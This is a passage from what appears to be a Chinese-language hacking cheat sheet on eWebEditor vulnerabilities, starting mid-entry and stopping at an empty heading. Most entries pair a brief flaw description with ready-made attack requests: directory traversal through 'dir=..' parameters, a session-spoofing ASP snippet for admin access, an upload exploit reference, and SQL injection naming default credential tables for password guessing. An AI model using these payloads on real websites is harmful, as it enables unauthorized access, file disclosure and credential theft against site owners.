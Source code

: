 攻击利用:  

比如 ID=46 s-name =standard1

构造 代码: ewebeditor.asp?id=content&style=standard

ID 和和样式名改过后  
ewebeditor.asp?id=46&style=standard1

### eWebEditor 遍历目录漏洞

脆弱描述：  
ewebeditor/admin_uploadfile.asp  
admin/upload.asp  
过滤不严，造成遍历目录漏洞  

攻击利用:  

第一种: ewebeditor/admin_uploadfile.asp?id=14  
在 id=14 后面添加 & dir=..  
再加 &dir=../..  
&dir=http://www.xxxx.com/../.. 看到整个网站文件了  
第二种: ewebeditor/admin/upload.asp?id=16&d_viewmode=&dir =./..

### eWebEditor 5.2 列目录漏洞

脆弱描述：  
ewebeditor/asp/browse.asp  
过滤不严，造成遍历目录漏洞  
攻击利用：  
http://www.xxxx.com/ewebeditor/asp/browse.asp?style=standard650&dir=…././/..

### 利用 eWebEditor session 欺骗漏洞, 进入后台

脆弱描述：  
漏洞文件: Admin_Private.asp  
只判断了 session，没有判断 cookies 和路径的验证问题。  
攻击利用:  
新建一个 test.asp 内容如下:  
<%Session(“eWebEditor_User”) = “11111111”%>  
访问 test.asp，再访问后台任何文件，for example:Admin_Default.asp

### eWebEditor asp 版 2.1.6 上传漏洞

攻击利用:（请修改 action 字段为指定网址）  
ewebeditor asp 版 2.1.6 上传漏洞利用程序. html

### eWebEditor 2.7.0 注入漏洞

攻击利用:  
http://www.xxxx.com/ewebeditor/ewebeditor.asp?id=article_content&style=full_v200  
默认表名：eWebEditor_System 默认列名：sys_UserName、sys_UserPass，然后利用 nbsi 进行猜解.

### eWebEditor2.8.0 最终版删除任意文件漏洞
